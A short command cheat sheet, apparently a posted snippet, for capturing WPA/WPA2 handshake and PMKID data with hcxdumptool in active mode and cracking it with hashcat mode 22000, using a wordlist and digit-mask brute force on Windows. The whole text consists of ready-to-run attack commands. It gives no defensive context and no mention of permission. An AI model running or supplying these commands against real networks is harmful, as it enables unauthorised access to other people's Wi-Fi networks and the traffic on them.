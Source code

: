 // COMMANDS //
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service

sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=15 

sudo systemctl start wpa_supplicant.service
sudo systemctl start NetworkManager.service

hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng

hashcat -m 22000 hash.hc22000 wordlist.txt

Windows:
hashcat.exe -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d

hashcat.exe -m 22000 hash.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d

